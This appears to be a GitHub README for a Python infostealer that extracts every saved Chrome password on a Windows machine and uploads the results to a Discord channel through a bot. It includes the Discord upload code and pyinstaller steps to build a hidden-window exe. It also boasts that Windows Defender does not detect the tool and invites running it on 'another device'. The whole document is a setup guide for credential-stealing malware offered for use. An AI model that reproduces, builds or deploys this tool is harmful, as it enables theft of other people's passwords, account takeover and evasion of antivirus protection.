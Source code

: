 # chrome_password_stealer
This python script steals all the chrome password stored in a device and uploads them into a discord server. This program only works in windows and only for chrome. The windows defender doesn't detect it but maybe other programs can.
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 
![Image of the option to enable](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/developer_mode.png)
Then you need to go to the https://discord.com/developers/ the discord theveloper portal and clic on new application
![Image of the app creation](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/app_creation.png)

Then you ned to navigate to the bot section and create a new bot and enable all types of intents and select administrator on the bot permission settings. Then save the changes.
![Image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)
![image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)

Then renew the bot token and paste it into the code where indicated.
### Adding bot to server

Navigate tho the 0auth section and click on bot and then administrator. Once this done select Guild install in the list below. Copy the link and acces to it. Select the server you want to use and click on authorize.

After this is done go back to your discord app and copi the id on the chanel you want the bot to send the fil. Do so by left click on the chanel and select copi canel id.
Then paste the chanel id where indicated in the code.

## results
After you completed all the previous steps you can test the code by running it in your own computer or compiling it and running it in another device.